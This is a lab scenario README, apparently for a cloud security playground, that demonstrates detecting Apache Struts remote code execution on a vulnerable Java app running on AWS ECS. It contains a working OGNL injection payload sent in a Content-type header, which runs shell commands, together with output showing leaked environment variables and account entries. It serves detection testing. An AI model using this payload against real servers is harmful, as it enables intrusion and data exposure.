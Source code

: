 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
# EC2
pgo --apply ecs-ec2

# Fargate
pgo --apply ecs-fg
```

Ensure to have Runtime Security enabled on the Vision One Console for this cluster.

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "pgo-cnc-ecs-ec2"
ecs_ami_ec2 = "ami-00a947e5cc1e6d3d3"
loadbalancer_dns_ec2 = "pgo-cnc-ecs-ec2-30050812.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh pgo-cnc-ecs-ec2-30050812.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 18.195.245.32:80...
* Connected to playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com (18.195.245.32) port 80 (#0)
> GET /todolist/todolist/ HTTP/1.1
> Host: playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Tue, 01 Aug 2023 12:45:58 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/46de0786-9920-42aa-bff4-c17fd4d273c5
CATALINA_HOME=/usr/local/tomcat
LANG=C.UTF-8
HOSTNAME=ip-10-0-175-104.eu-central-1.compute.internal
...
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
* transfer closed with outstanding read data remaining
* Closing connection 0
curl: (18) transfer closed with outstanding read data remaining
```

Vision One Observed Attack Techniques:

![alt text](images/v1cs-ecs-struts-01.png "Exploit")

Container Security Runtime Event:

![alt text](images/v1cs-ecs-struts-02.png "Event")
